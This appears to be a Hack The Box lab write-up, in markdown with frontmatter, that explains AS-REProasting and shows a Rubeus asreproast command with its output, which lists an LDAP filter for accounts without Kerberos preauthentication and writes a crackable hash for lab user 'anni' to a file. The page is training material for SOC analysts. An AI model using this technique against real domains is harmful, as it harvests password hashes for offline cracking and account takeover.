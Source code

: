 ```yaml
---
title: "23. AS-REProasting"
authors: [asalucci]
tags: [HackTheBox, CTF, trustinveritas, alessandro]
published: 2025-04-22
categories: ["SOC", "Analyst", "Write", "Up", "HackTheBox"]
---
```


import RevealFlag from '@site/src/components/RevealFlag';

# AS-REProasting

## Description

The `AS-REProasting` attack is similar to the `Kerberoasting` attack; we can obtain crackable hashes for user accounts that have the property `Do not require Kerberos preauthentication` enabled. The success of this attack depends on the strength of the user account password that we will crack.

---

## Attack

To obtain **crackable hashes**, we can use `Rubeus` again. However, this time, we will use the `asreproast` action. If we don't specify a name, `Rubeus` will extract **hashes for each user that has** `Kerberos preauthentication` **not required**:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC2.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC2.eagle.local (172.16.18.4)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\asrep.txt
```
